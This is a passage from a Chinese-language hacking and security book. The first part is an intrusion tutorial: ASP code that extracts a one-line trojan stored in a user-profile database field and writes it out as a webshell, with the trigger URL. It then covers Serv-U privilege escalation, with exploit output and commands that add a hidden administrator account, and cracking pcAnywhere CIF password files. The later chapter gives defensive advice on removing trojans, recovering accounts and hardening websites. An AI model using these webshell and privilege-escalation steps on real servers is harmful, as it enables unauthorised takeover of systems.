我们知道，很多站点在用户注册时要填写一些资料信息，如：用户名、密码、QQ、邮箱、个人简介、电话、联系方式、住址等，而对应到数据库中也都会有相应的表、字段和值。我们可以在注册用户时，在个人简介的地方写入 shell 代码，然后修改该站点上的一个文件，使用的时候触发这个文件，就把我们个人简介中的 shell 代码释放到当前目录下。

插入的木马就用一句话木马即可，导出为 WEBSHELL 的代码如下：

```asp
<!-- #INCLUDE FILE="conn.asp" -->
<%
if request("action")="nohack" then
  fname=request.querystring("fn")
  tname=request.querystring("tn")
  bname=request.querystring("bn")
  id=request.querystring("id")
  idvalue=request.querystring("idv")
  set rs=server.createobject("ADODB.recordset")
  sql="select "& bname & " from "& tname & " where "& id & "='"&idvalue&"'"
  rs.open sql,conn,1,3
  if not rs.eof then
    content=rs(bname)
  else
    response.write "Nothing"
  end if
  set fso=Server.CreateObject("Scripting.FileSystemObject")
  set txtfile=fso.CreateTextFile(server.mappath(fname))
  txtfile.writeline(content)
  txtfile.close
end if
%>
```

注意第一行的 `<!-- #INCLUDE FILE="conn.asp" -->`，是网站数据库链接文件名，有时要根据具体情况修改。将上边的代码加到站点的一个文件中，如 nnn.asp。经过查看数据库，我注册的名字 pctest 是在 student 表，其 id 值为 20，用于存放一句话马的字段是 realname；如图105所示。

| stuid | userid | userpwd | realname |
|---|---|---|---|
| 19 | admin | ****** | 风月星+ |
| 20 | pctest | ****** | <execte r |

表名：student

图105

在 IE 中提交 `http://www.xxx.com/nnn.asp?action=nohack&fn=hack.asp&tn=student&bn=realname&id=id&idv=20`，会在 nnn.asp 相同目录下写入一个名为 hack.asp 的 WEBSHELL，如图106所示。


解释一下，nohack 是代码中 `if request("action")="nohack"` 这一行设置的参数，相当于密码；fn 参数是生成的文件名；tn 是保存数据的表名；bn 是保存数据的字段名；id 参数是排列数据的字段名，这里数据是以 ID 字段排列的，所以是 id=id；idv 是我们那条记录本身信息的 ID 号，我们这里是 20。

## 31 如何利用 Serv-U 提升权限？

Serv-U 是一种被广泛运用的 FTP 服务器端软件，通过 Serv-U，用户能够将任何一台 PC 设置成一台 FTP 服务器，这样，用户或其他使用者就能够使用 FTP 协议，通过在同一网络上的任何一台 PC 与 FTP 服务器连接，进行文件或目录的复制、移动、创建和删除等。

Serv-U 本地溢出提升权限已经是一个横行了近十年的漏洞，至今仍然成功率颇高，用 Serv-U 提权可以说是“居家旅行，必学漏洞”。

Serv-U 提权的利用方法很简单，只需在提权工具的双引号内输入本来没有权限执行的 cmd 命令即可，如图107所示。


在 WEBSHELL 中使用时，先通过上传功能将提权工具上传至目录下，并且记录下保存的绝对路径，如图108所示，绝对路径是 `f:\wwwroot\pctestt000\wwwroot\servu.exe`。


上传之后到 WEB 目录下查看一下文件是否存在，如图109所示，以免上传的提权工具被杀掉了。


# 第三章 黑客入侵常用技巧

接下来进入 WEBSHELL 的 cmd 命令执行页面，在命令栏中输入刚才上传的提权工具的绝对路径，如 `f:\wwwroot\pctest000\wwwroot\servu.exe`（提权程序文件名后要空一格，再用双引号括住你要执行的命令），如图110所示。


图110

当看到在下方的执行回显窗口出现如下字符时，说明提权命令成功执行：

```text
<221 Serv-U FTP Server v6.0 for WinSock ready
>USER LocalAdministrator
<331 User name okay, need password.
************************************************
>PASS #!@$aK#.!k,@P
<220 logged in, proceed
************************************************
>SITE MAINTENANCE
************************************************
[+] Creating New Domain...
[+] Domain Haxorcitos.0 Created
[+] Creating Evil User
[+] Now Exploiting...
>USER haxorcitos
>PASS whitex0r
[+] Now Executing: net user nohack 12345678 /add
```

检查一下账号是否建立成功，用 `net user` 命令查看，如图111所示。


图111

```text
f:\wwwroot\pctest000\wwwroot\servu.exe "net localgroup administrators nohack /add"
```

执行成功后如果服务器开着远程桌面，就可以用这个 `nohack` 用户和 `12345678` 密码去登录了；如果没有开远程桌面，也可以自行打开或执行其它命令。总之，有了 admin 权限，我们的黑客之路就很宽广了。

## 32 如何利用 PCANYWHERE 提升权限？

PCANYWHERE 是一款用得很多的远程管理软件，可以远程操作服务器。这个程序本身并没有什么可以利用的漏洞，但是它有一个重大失误，就是保存远程管理员账号的 CIF 文件密码加密并不严格，可以被轻易解密。

利用方法如下：

如果我们拿到一台主机的 WEBSHELL，通过查找发现其安装有 PCANYWHERE，同时保存密码文件的目录是允许我们的 iUSER 权限访问，这样就可以下载这个 CIF 文件到本地进行破解，再通过 PCANYWHERE 从本机登录服务器。

如何判断主机是否安装有 PCANYWHERE 呢？一般安装了该软件的主机会打开 5631 端口，我们可以在 WEBSHELL 上执行命令 `netstat -an`，查看是否打开了 5631 端口，如图112、图113所示。


在图113中，5631 端口状态为 listening，说明该主机上安装有 PCANYWHERE，接下来就是访问保存密码文件的目录，下载 CIF 文件到本地破解。

不过有一点请注意，保存密码的 CIF 文件不是位于 PCANYWHERE 的安装目录，而且位于安装盘的 `\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere` 目录下，如图114所示。


下载 CIF 文件到本地就可以通过工具来进行破解了。PCANYWHERE 的账号密码破解工具到处都有下载，可以通过 baidu 搜索，常用的黑客工具 domain 中也整合了这个功能，在“破解工具”这一项，如图115所示。


先将 CIF 文件读取进去，然后点击“读取密码”即可破解，如图116所示，接着就可以用得到的账号密码通过本机安装的 PCANYWHERE 登录控制远端服务器。

# 第三章 黑客入侵常用技巧


图116

在 Windows 2003 中，由于目录 `\Documents and Settings\All Users\Application Data\` 的默认权限已经被修改了，这个目录不再是 everyone 可访问，一般很难再用此方法提权。不过，我们要学习的是这种利用服务器上重要程序的账号密码来提权的思路。


# 第四章 安全措施分析及处理

- 我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？
- 我游戏账号总是被盗，怎么办呀？
- 没有条件安装防火墙和杀毒软件，如何保护游戏账号？
- 听说有手工查杀木马的方法，是如何操作的？
- 服务器如何防护 WEBSHELL？
- 我中了木马，应该怎么清除呢？
- 怎样把被篡改的系统恢复到出厂？
- 网站被入侵后如何清除黑客留下的后门？
- 什么是组策略，它有什么作用？
- 我是一家网站的维护人员，怎样才能避免我的网站被黑呢？

- 1. 我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？
- 2. 我的 QQ 号被盗了，有没有什么办法能找回？
- 3. 我游戏账号总是被盗，请问怎么回事？我该怎样防止账号被盗呢？
- 4. 我中了木马，应该怎么清除呢？
- 5. 我是一家网站的维护人员，怎样才能避免我的网站被黑呢？
- 6. 什么是组策略？它有什么作用？
- 7. 听说有手工查杀木马的方法，是如何操作的？
- 8. 网站被入侵后如何清除黑客留下的后门？
- 9. 怎样使用综合类安全防护工具？
- 10. 服务器如何防范 WEBSHELL？
- 11. 没有条件安装防火墙和杀毒软件，如何尽力防护计算机安全？
- 12. 黑客是怎么让我的卡巴斯基过期的？

## 我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？

这是因为你所中的木马是最新的，杀毒软件还没有来得及对其特征码进行定位，因此它不在杀毒软件的“射程”内；或者该木马进行了防杀处理，比如用工具加过壳或改为免杀等。如图1、图2所示，为两款加壳防杀工具的界面截图。


现在的木马智能性越来越高，在不断完善其功能、提高性能的同时，也不再单纯地等待杀毒软件的更新或者查杀，而是越来越多地采用以攻为守的防御方式。它们可以直接杀掉杀毒软件和防火墙的进程，更有甚者能直接破坏杀毒软件和防火墙的程序。每次杀毒软件和防火墙启动后，进程和右下角图标都处于正常状态，但是实际上并没有运行。这种破坏方式的危害性十分大，而且不容易被发觉。

判断我们的杀毒软件和防火墙是否被摧毁是需要一定经验的。通常来讲，被破坏后，右下角的图标会有一些不正常，请注意观察。而且有时还会出现杀毒软件的报错现象，这要引起充分重视。如果是在启动或运行杀毒软件时出现如图3所示的程序出错提示，要引起相当重视的警觉。


图3

这时候由于失去了正常的查杀功能，很长时间内我们的计算机会查不出病毒（等你发现这个不正常现象时已经很晚了），在进行在线升级时会提示“版本不对”等出错提示，这也是杀毒软件和防火墙被破坏的标志。当杀毒软件和防火墙已经被木马摧毁时，有主动和被动两种补救措施。

## 被动措施

- 1. 使用一些不太常见的杀毒软件，它有可能不会被木马破坏。因为木马对杀毒软件进行破坏，和杀毒软件查杀木马都是采用“特征码”来分辨需要查杀和摧毁的目标。杀毒软件和木马居然是采用同一种思路（算法）来“瞄准”自己要打击的目标，这一点真是十分讽刺。

如果你的瑞星杀毒软件会被木马破坏，我们可以下载“木马清除专家”或“Windows 清理助手”等不太常见，但是功能又非常强大的查杀工具来使用，如图4所示。


图4

- 2. 先卸载已经安装过的杀毒软件，然后再安装一次进行查杀。

有一点要特别注意，在整个安装过程中一定不要运行任何其它可执行程序。这是因为木马去破坏杀毒软件时，有可能是采用类似蠕虫感染的技术，在执行 EXE 程序时就会判断是否被感染，如果没被感染就马上对其感染。但是第一次被运行的程序是无法被感染的，我们可以利用这一次机会对系统进行查杀。

## 主动措施

- 1. 重新启动电脑进入安全模式查杀。

方法为重启计算机，在进入自检画面的过程中按住 F8 不放，这时就会进入选择启动方式选项，如图5所示，选择“安全模式”即可。

“安全模式”下计算机只加载维持系统运行的最基本程序，所以许多木马通常是无法被加载运行的，处于“睡眠”状态，查杀起来自然会容易一些。有些病毒采用的是监控保护手段，比如发现打开任务管理器后立即关闭等功能，也因为没有被启动而无法发挥作用。

- 2. 使用例如 3721、江民在线等进行查杀。

# 第四章 安全措施分析及处理

很多木马和病毒不仅感染电脑，还会破坏杀毒软件，本地的文件也很有可能被感染，都属于“不可信”的。这时通过第三方环境来杀毒，就能绕过病毒对我们电脑所作的破坏，并接受“治疗”。


以江民在线杀毒为例，URL 是 **http://online.jiangmin.com**，进入后提示下载插件，这样才能在线查杀，如图6所示。


插件下载并安装完后，在线查杀的操作和本地使用杀毒软件并无差别。选中要扫描的硬盘和扫描的范围（压缩文件、内存、邮件都选上），然后扫描即可，如图7所示。


不一会儿就扫描出了结果，如图8所示。点击“清除病毒”，然后再重启系统，看系统是否能正常使用。

- 3. 使用杀毒软件启动盘启动电脑进行查杀。

系统如果被感染得太严重，软件根本无法正常运行，所有的 EXE 程序全有病毒，在线杀毒网站也被封锁，注册表无法打开，关键系统功能热键全被锁死……总而言之，系统已经千疮百孔，难以为继。这种情况下，我们可以用杀毒软件启动盘上的系统启动电脑，彻底扔掉硬盘上那堆已经重度感染的系统，以最干净的环境来杀除病毒。

操作方法和平时用启动盘启动电脑是一样的。首先开机进入 BIOS 设置（一般按 DEL 键），在里面将系统引导方式设为光驱或 USB 设备，然后保存设置并重新启动电脑。然后把杀毒软件启动盘（光盘版或 U 盘版）放进光驱或插上 U 盘，再次重启计算机就进入了启动盘界面。


图8

杀毒软件启动盘和普通的 Windows 系统启动盘差不多，只不过杀毒软件的启动盘还附带有杀毒功能，这种启动盘可以用杀毒软件自己生成。如图9所示，是金山毒霸的 U 盘启动盘，通过它启动计算机后即可杀毒。


图9

- （4）重新安装系统让电脑具有双系统，在无毒的 B 系统下查杀 A 系统。有朋友说，启动盘里的系统一般都是字符界面，可是我只懂得图形界面的操作，怎么办啊？那大家可以在一台电脑的其他硬盘分区上再安装一个操作系统，并让它作为紧急备用时使用。如图10所示，我们分别在 C 盘和 E 盘都安装了系统，当 C 盘的系统被感染后，可以用 E 盘的系统进入电脑进行处理。

当一台电脑安装了多系统后，在启动计算机时会出现如图11所示的选择菜单，选择你需要进入的那个操作系统就行了。

本文最后来解答一个疑问：为什么安装有防火墙也无法阻挡与外界的通信？这是因为木马与外界通信通常都会选用防火墙默认允许放行的端口，例如 80 端口。你浏览网站时，实际上就是访问网站服务器上的 80 端口，所以当你的机器出现访问 80 端口的请求时，防火墙会放行，不会提示你阻止。这样，许多木马也是设置成通过 80 端口去进行连接。

有的木马是与其他能正常访问网络的进程绑定的，只要这个进程能够访问网络，那作为这个进程一部分的木马自然也能访问网络。

## 第四章 安全性能分析及处理

以上就是安装了杀毒软件和防火墙后仍不能阻挡一部分木马的原因，但这决不意味着杀毒软件和防火墙对于我们的计算机安全是无足轻重的，它们能帮我们维护 95% 的计算机安全。


## 2 我的QQ号被盗了，有没有什么办法能找回？

QQ号被盗是很多网民在网络生活中都有过的遭遇，因为缺乏必要的安全常识，以及现在盗号木马日益隐蔽，QQ号被盗的可能性几乎出现在我们每个人身上。即便笔者这样具有一定网络安全专业知识的人，也不能说百分之百地避免账号被盗。因为当一款盗号木马刚刚问世时，或者被人为修改成免杀后，其威胁度更高。

网上也不断有好事者专门制作此类“免杀”木马进行发布，使得门槛极低就能轻易获得，如图12所示。


杀毒软件在没有获得该木马特征码期间对它几乎束手无策，如果十分不幸遇上了不能被查杀的木马，是谁都会中的。正是“木马面前，人人平等”。

QQ号被盗后，首先应该做的是通知重要的亲友，以防QQ号被用来进行诈骗，并将 QQ 目录下你的QQ号对应的目录文件进行备份，如图13所示。


因为那里有你的资料、聊天记录和好友，万一无法找回时可以用它来作恢复。在找回密码前有一点请大家注意：**在找回密码后，不要马上用找回的密码登录，因为此时电脑里的木马还没有清除，立刻登录QQ可能会二次被盗。**

QQ号被盗了，首先恢复的办法是用密保找回密码。打开QQ，点击密码输入框右边的“忘了密码”，如图14所示，就进入“密保找回QQ”网页。


也可从网址 `https://account.qq.com/cgi-bin/showMain` 进入密码找回页面。如果你填写过比较完整的密码保护资料，就选中“自助取回QQ密码”，这样能比较快地找回密码；如果没有填写完整的QQ密保资料或者忘掉了，只能通过“QQ账号遗失申诉”的方法了，如图15所示。

点击图15中的“QQ账号遗失申诉”，输入QQ号和验证码并确定，如图16所示。


接着选择“通过密保找回密码”，点“确定”后，输入密保问题进行取回。在选择“取回密码方式”中，可以选择将密码邮件发到当年申请密保时的那个 E-MAIL 信箱，或者新指定一个邮箱。如果你的原始邮箱丢失，应该选择重新指定邮箱接收密码。重新指定邮箱需要输入你注册时的证件号码，如果你注册时是乱填的证件号码，那么很遗憾，这里将无法指定新的收信邮箱。

“手机号”和“验证码”这一栏是当你因为对密保答案记忆模糊而多次输入失败时，你的找回申请会被冻结，这时候你可以通过手机收取验证码的方法突破冻结限制继续找回。经验证密保答案回复正确后，新的 QQ 密码即被发往指定邮箱。

那么对于没有密保或者密保答案已经不记得的情况，只能通过一种更为烦琐的密码寻回方式——通过申诉找回密码。在“密码取回选择指引”页点击“忘记了！（只能通过申诉找回密码）”，如图17所示。


图17

这时会出现一张项目繁多的表单让你填写（这就是为什么我说比密保找回还要复杂）：真实姓名、邮编、详细地址、邮箱、最后登录的时间地址等。

**请注意一定要全部按真实的填写，有红色*号的项目为必填，特别是邮箱要填写正确，因为在下一步中，系统会把验证码发往你的邮箱。你在填入了验证码之后，才能进一步操作。**

表单填写完毕后点击“下一步”，需要你输入邮箱中收到的验证码，如图18所示。


图18

然后下面填入三个曾使用过的 QQ 密码，这可是申诉能否成功的关键。有一个情况腾讯没有在此特别说明，就是输入曾经用过的 QQ 密码时，越久远的越好。时间越长的，申诉成功的可能性越大。

下一步是填写原来 QQ 上的几个好友，其他项按要求填完，然后点击“下一步”，可以重设新的密保资料。最后点击“完成”，申诉找回的过程就结束了，系统会为你的申诉请求生成一个回执号，请记录好，在人工查询申诉结果时非常需要。

当你的申诉有了处理结果后，会以邮箱或短信通知你，还可以通过申诉页面上方“找回查询”下的“申诉查询”即时查询结果（需要输入回执号），如图19所示。


最后要解答一个读者心中十分关心的问题：QQ被盗号后有没有办法通过黑客手段寻回呢？以个人经验来看，这是很难的！被盗的QQ一般不会再上线，而且盗取QQ的人也具备较高的网络安全常识，一般的技术是不会中招的。而当你掌握了相当高的网络入侵技术时，我想类似QQ被盗这类问题也不会困扰着你了。

## 3 我游戏账号总是被盗，请问怎么回事？我该怎样防止账号被盗呢？

游戏账号被盗，除开生活中认识的人作案，如将账号给过一些不该相信的人造成的被盗，其他账号丢失的绝大部分原因是因为中了盗号木马。如果木马运行在我们的电脑中，就好像身后有个人盯着我们输入密码一样，账号的安全根本没有任何保障。

有的朋友对木马的认识很肤浅，认为只有被传到自己的电脑上、被自己运行了才会中木马。常听见很多人知道自己账号是由木马盗窃之后很吃惊地说：“不可能啊！我没有运行任何别人发来的程序！”。这里我要明确地告诉大家，这个观点是错的。

实际上中木马的过程并不需要你运行，木马的传播也绝不是发送到你的机器上让你运行这么愚蠢。如果一个网站被人放置了木马（黑客术语称为“挂马”），那么你在浏览这个网站时，木马就会神不知鬼不觉地从这个网站下载到你的计算机上运行，这个过程不用让你进行任何操作，完全是毫不知情的。

在浏览器下方的状态栏会显示正在加载的页面，如图20所示，如果发现浏览某网站在加载某URL的同时 IE 卡住，最好能马上关闭。


通过网页传播木马是最常见的手法，还可以通过其他的途径传播，比如网上下载的电影。有些电影不是会弹出一个广告页面吗？如果这个页面被改成木马网址并把屏幕长宽都改为0，这就成了一种隐蔽的传马方式。

另外，通过邮件也能传播木马。在邮件中夹带木马地址，这些属于比较高级一点的社会工程学传播技巧，但是很有想象力，如图21所示。


告诉大家一个很可怕的事实，微软的 OFFICE 出现漏洞时，连 WORD 文档都能用来传播木马（当然打过补丁后就不会中招了）。木马的危害虽然可怕，传播的方式虽然隐蔽，但是不代表我们不能防御它，有一个小技巧在一定程度上有用。

就是在输入密码时，不要直接在密码框输入你的密码，先打开一个记事本，把密码输入，如图22所示，再复制粘贴到密码输入框。这样可以防止一部分木马对密码的记录，但是遇到高级木马时可就不行了。


图22

低级的木马用的是键盘记录，工作原理是监视游戏窗口的键盘输入，将用户每次敲击的键盘字符记录下来得到密码，而高级木马多数采用的是内存截取。

所谓内存截取，就是利用游戏账号和密码在提交到服务器的过程中，其数据是存放在内存中的，那么内存截取木马只要寻找到存放账号和密码的内存地址，读出其中的信息就盗取了账号。

对于内存截取类的木马，有一部分查杀软件也提供了防护，比如360安全卫士、瑞星、金山等，这里以360安全卫士为例进行说明。

首先打开“保险箱”，选中“网络游戏”，如图23所示，会自动扫描系统中安装的主流网络游戏。


图23

然后我们选中“梦幻西游”启动游戏，保险箱会对所启动的链接库进行检查，如图24所示。

检查完成后会启动游戏，当内存截取木马试图访问内存进行截取密码时，就会出现如图25的提示。

如果是在网吧上网，记得把电脑重启一次再玩，因为网吧一般安装有还原卡或还原精灵，重启一次后会还原到备份的无木马状态。在游戏中不要好奇心和侥幸心理太重，游戏中刷屏显示的“登录XXX网站即可领取游戏币”之类的广告不要相信，十之八九有木马。

在家中个人使用的电脑，一定要打开 Windows 的实时更新，以便打上最新的系统漏洞补丁。打开的方法为进入“我的电脑”-“属性”-“自动更新”，如图26所示。然后再进入“控制面板”-“安全中心”，选中“Windows防火墙”，把系统自带的防火墙打开，并选用一款好的第三方防火墙和杀毒软件。


图24


图25


图26

> 杀毒软件的作用不等于防火墙！另外请定期扫描自己的电脑，用以清除木马。杀毒软件的病毒库也必须及时更新，否则可能出现木马太新而病毒库没有更新，从而造成无法检测的情况。不要运行任何陌生人传给你的 exe、cmd、com、bat 等后缀文件。最好能够让本机安装系统还原，定期进行还原操作。

做到以上的习惯可以避免大部分的中马概率，但是世界上没有绝对安全，任何安全都只是相对的，99% 的避免发生，不代表就不会发生。

## 我中了木马：应该怎么清除呢？

**切记！中了木马后的第一步就是一定要断网下线，不要再让自己的计算机还在网上，这一点是相当重要的，因为这时木马的主人可能正在监视着你的一举一动。**

如果是用程序进行拨号上网的，双击屏幕右下角的拨号软件图标调出程序界面，点击“注销网络”即可下线，如图27所示。有些朋友上网是路由内置拨号，那最好先关机，再把网线拔出。


图27

我们心里要有底，如果能被杀毒软件报警的木马，几乎肯定是能被清除的。另外还有一手最后的杀手锏，实在不行格式重装一次系统，绝对肯定能解决中木马的问题。了解了这两点，就不要太慌张，保持好的心态才能冷静地处理问题。

首先，要保证自己的杀毒软件是最新的病毒库，然后看一下杀毒软件的报警，是报的木马、病毒、蠕虫，还是恶意程序？

> 报告中含有 PSW 字样的是盗取账号的木马；含有 Backdoor 字样的是后门、远程控制类工具；含有 Worm 字样的是具有感染 EXE、HTML、COM、ASP 等文件的蠕虫；含有 DownLoad 字样的是下载器；含有 HackTool 字样的是黑客工具……

接下来简单介绍一下几种常见病毒的处理思路：

先谈谈盗号木马类，如果报警是这个，相对地应该更轻松些。特别是在访问某个网站时突然出现的报警，这通常是该网站被人挂上了网马，网马在你的机器上正要下载执行木马时，你的杀毒软件拦截到了这个网马的恶意程序。删除它吧，不要再上那个网站。这时我们的计算机并没有中木马，只是在中木马时被发现并及时阻止了。

如果提示是黑客工具、下载器之类，个人的建议是记下该病毒的名称，去 GOOGLE 一下有没有该病毒的专杀工具。因为专杀工具很有针对性，通常能做到一次性清除干净，在网上的相关资料也能了解该病毒的危害及运行机制，了解它才能战胜它，正如兵法中说的“知己知彼百战百胜”。如图28所示，得知 lcx.exe 是黑客用来转发端口的工具。


图28

蠕虫是个很讨厌的东西，它会大量占用我们的系统资源和网络资源，使我们的网络延时很高（就是俗称的很卡）。而蠕虫清除的难点在于只要有一点点没清干净，马上就能重新感染。

- 2. 在断网之后，进入安全模式下查杀，因为安全模式下计算机只会以自己必须的几个程序和进程运行，这就避免了加载其他乱七八糟的进程（**请注意：并不是安全模式能完全避免木马的加载，但起码能让大部分木马不加载**）。同时建议在判明了蠕虫类型的情况下去网上找专杀工具，这样有针对性的查杀会对蠕虫起到比较好的效果，如图29所示。


图29

请注意以下几点：

- 第一，如果是中的木马，为了图省事可以仅检测系统安装盘，但是中了蠕虫一定要全面查杀每一个分区。
- 第二，在没有进行完整的硬盘扫描前，不要打开任何程序。因为蠕虫的一个显著特点就是感染力强，只要有一处还没有清除干净就可能使已经被清除的文件重新感染。另外，扫描的时间会很长，建议在深夜不需要使用电脑时做。
- 第三，在全部的硬盘查杀完成后，不要关掉杀毒软件，而是在最近一段时期保持杀毒软件在实时监控状态。因为被感染过的文件虽已被查杀，但是蠕虫的启动和激活模块可能还在工作，随时可能卷土重来，所以要让自己的计算机处于被保护状态中。

木马的查杀相对较难，其隐藏性高，关联性强（可以与 EXE、TXT 等多种格式文件关联，即这些类型的文件启动时木马被再次激活），防护能力强（隐藏进程、服务，使自己隐藏在系统中存在的文件里，甚至直接损坏杀毒软件）。对于木马的查杀，可以采用前面几点相结合的处理方式，比如先看杀毒软件所报的木马类型（现在的木马大部分是灰鸽子、黑洞、上兴、PCSHARE等），再从网上下载专杀工具尝试杀除。如果是这些木马的变种，可能无法完全清除，这时就用对付蠕虫的方法，全盘查杀并打开防火墙一直实时监控，使守护进程和激发模式被发现出来。

以上就是作为一个菜鸟用户在面对机器中木马时所能做的，通过灵活地使用杀毒软件，清除木马也不是件难事。

## 5 我是一个网站的维护人员，怎样才能避免我的网站被黑呢？

在回答这个问题之前，不得不告诉大家一个现实，就是说世界上的绝对安全是不存在的。大家可以假设，如果有一种安全系统是绝对安全的，那么这套系统的发明人将比微软公司的创始人比尔·盖茨还富有。

任何系统都是有漏洞的，这个观点不用怀疑，绝对有漏洞！没有漏洞只是现在还没有被发现而已。这一点使我们想要把安全一步到位做好，然后高枕无忧是不可能的，做网络安全是一个连续不断更新的事。

现在安全的系统和配置，将来未必就是安全的，如图30所示，为某站被黑首页。具体到如何避免网站被黑的风险上，我想从主观和客观两方面谈谈个人的感受。


图30

### 主观方面，是对于管理员本身，人的因素。

作为网站的管理员，可以是一个技术并不出众的人，但必须是一个勤快的人。软件的及时更新、脚本系统补丁的升级、关注最新安全事件、微软系统漏洞公告、定期的安全检测……这些都需要大量精力来进行。Windows 的日志记录了入侵者的所有动作，但是管理员会有好的习惯和耐心去阅读吗？如图31所示。


图31

定期的日志检测所需要的绝不是技术，而是责任心、耐心。这些并没有太多技术含量，但需要经常性地依照惯例来维护，这样能让我们系统的安全水平提高一大截；相反，一位管理员即便水准很高，可是对工作没有责任心，对网站疏于管理，出现了最新的漏洞没有在第一时间升级系统，再好的水平也难保证自己的网站不被新生漏洞击倒。

网络管理人员也要是一个敢于接受新技术，甚至是“敌对”技术的人。个人认为，黑客技术培训应该是每个网络管理员都应该进行的，孙子说“知己知彼，百战百胜”，不了解网站是如何被黑的，又怎样做防护呢？

知道了黑客入侵的手法、思路，对于防护和查找漏洞都会是非常方便的。但很遗憾的是，很多网管并没有这个意识，对于黑客入侵技术十分仇恨，认为其十分邪恶，去了解和学习它是接触不良的东西。这种态度是不对的，不利于开阔眼界吸收知识。

### 至于客观因素，是指工具和基础防护方面的。

首先，杀毒软件、防火墙都要安装，杀毒软件设为自动更新，Windows 的自动更新也要打开。如没有必要，请将杀毒软件设为只允许几个已知的更新程序对外连接，这样可以避免黑客入侵后利用反向连接扩大权限。并且以现在的潮流来看，杀毒软件需具备行为检测功能，这样可以提高黑客入侵后提升权限的难度。

WEB 目录和 NTFS 权限一定要严格设置，本着权限最小化的原则，不该给的权限一定不要给。虚拟主机要做到一个站点一个用户，以前没有这样做的不要怕麻烦，马上改过来。针对脚本形式的 WEB 木马，可以采用专门的脚本木马检测工具，如“绿盟站长助手”。

如果使用的是网上现成的整站程序，一定要随时关注官网上的漏洞发布公告，第一时间打上补丁。至于第三方程序，在安装前要考查其安全性，是否有漏洞被黑客利用，在设置和使用上是否有安全要点需要注意。

很多网站被黑都是因为一个叫 Serv-U 的 FTP 服务程序给黑客提供了便利。相关服务器应专机专用，切不可为了方便自己而在服务器上放置无关的程序。另外，调试用的网站程序要及时删除，这两个被忽视和不重视的角落很可能成为黑客的突破点。

在有条件的情况下，如果是 MSSQL 数据库，将其与 WEB 服务器分离，这样能防止 SQL 注入后得到 WebShell。对于 ACCESS 数据库，不要在数据库前加 # 号防下载，那样是掩耳盗铃，毫无作用的。因为只要把 # 号改成 %23，再配合 URL 就能够下载。如访问 `http://www.nohack.com/data/%23dvbbs8.mdb` 就能正常下载连接的数据库了，如图 32 所示。


图 32

把数据库改为 ASP 后缀，并加上防下载字段是不错的做法，这样能防止下载数据库，也能防止数据库插马式攻击。

网站配置完成后，一定要删掉默认库和临时库，切不可以为当前密码与默认数据库密码不同而放在那里。有的数据库里会记录管理员的操作，比如将数据库改名备份，那么黑客得到这些信息，就能得到当前库的地址和文件名。

以上就是一些个人经验性的总结，对于常规的安全配置，其它章节将有介绍，在此就不再详述了。

## 6 什么是组策略？它有什么作用？

组策略就是注册表相应键值的可视化镜像。了解计算机知识的朋友应该知道，在注册表里保存着大量的配置项目，几乎所有的功能和操作都在注册表里有相应的键值。修改这些键值能实现各种不同的功能，比如对鼠标右键菜单进行编辑，对 IE 能打开的选单进行选择等，这些都是可以通过在注册表里修改相应键值来实现的。但是这些键值分布于注册表的各个角落，如果进行手工操作将十分麻烦。

**组策略则将系统重要的配置功能汇集成各种配置模块，不需要在注册表中修改相应的键值，只要在组策略中用鼠标可视化地修改，就能对注册表的相关键进行编辑。**

## 第四章 安全性能分析及处理

在“开始”菜单中单击“运行”命令项，输入 **gpedit.msc** 并确定即可打开组策略，如图 33 所示。这里打开的是本机组策略，它还支持网络编辑功能。


图 33

- 1. 打开 Microsoft 管理控制台（可在“开始”菜单的“运行”对话框中直接输入 MMC 并回车）。
- 2. 在“文件”菜单上单击“添加/删除管理单元”，如图 34 所示。


图 34

- 3. 在“独立”选项卡上单击“添加”。
- 4. 在“可用的独立管理单元”对话框中单击“组策略”，然后单击“添加”。
- 5. 在“选择组策略对象”对话框中单击“浏览”查找所需的组策略对象。
- 6. 单击“完成”→“关闭”→“确定”，组策略管理单元即打开要编辑的组策略对象。

打开组策略编辑器后，有“计算机配置”和“用户配置”两项。“计算机配置”下的改动应用于所有用户；“用户配置”的改动是应用于当前登录的这个用户。

在“计算机配置”和“用户配置”下，分别有“软件设置”“Windows 设置”“管理模板”等几项，这些是把模板进行的分类，相应的选项可以修改相对的键值，下面我们就来修改一些常见的配置。

比如我们要对桌面系统图标进行编辑，隐藏桌面上的“网上邻居”和“Internet Explorer”图标。进入“组策略控制台”，依次选择“用户配置”→“管理模板”→“桌面”。在右侧窗格中将“隐藏桌面上‘网上邻居’图标”和“隐藏桌面上的 Internet Explorer 图标”两个策略选项启用即可，如图 35 所示。

如果要隐藏桌面上的所有图标，只需将“隐藏和禁用桌面上的所有项目”启用即可，如图 36 所示。

当启用了“删除桌面上的‘我的文档’图标”和“删除桌面上的‘我的电脑’图标”两个选项以后，“我的电脑”和“我的文档”图标将从你的电脑桌面上消失；同样，如果要让“回收站”图标消失，只须将“从桌面删除回收站”策略项启用即可。

如果要禁用“Internet 选项”，进入“组策略控制台”，依次选择“用户配置”→“管理模板”→“Windows 组件”→“Internet Explorer”→“Internet 控制面板”，打开右边窗格中的“禁用常规页”并设置为“启用”即可，如图 37 所示。


图 35


图 36


图 37

我们来打开“Internet 选项”控制面板看看，会发现“常规”项目已经没有了，如图 38 所示。这样可以按照上面的方法再次关掉其他的标签项。

组策略中还能恢复在我们中病毒时常常被禁用的注册表。打开“组策略”，然后依次选择“用户配置”→“管理模板”→“系统”，双击右侧窗口中的“阻止访问注册表编辑工具”，如图 39 所示。

在弹出的窗口中选择“已禁用”，“确定”后再退出“组策略”即可为注册表解锁。

组策略能实现让计算机数百种设置，大家可以具体查看一下，根据自己电脑的情况设置相应的功能。组策略对于我们维护自己的计算机安全，配置相应的客户机环境，都是十分重要的手段。


图 38


图 39

## 7 听说有手工查杀木马的方法，是如何操作的？

木马当然能手工查杀，但是那要建立在对系统和木马运行机理十分了解的基础上，然后再借助一些工具，有经验的朋友就可以实现手工杀毒。

对于接触计算机不深的人来说，手工查杀木马显得稍难一点，因为各种木马的情况也是有差别的，需要一定的经验。以下我们通过一系列常见的手工查杀木马思路，来给大家讲解一下。

**手工查杀的思路一般是：去除木马保护机制——查找木马加载运行的地址——清除木马隐藏启动项。**

现在的木马都比较厉害，带有保护机制，例如隐藏木马程序、禁止 EXE 程序运行、锁死注册表（如图 40 所示）、自动关闭打开的进程管理器等，有的只在正常模式运行的操作系统中有效，在安全模式下会失效，因此手工查杀给大家的第一个建议是：一定要进入安全模式。


图 40

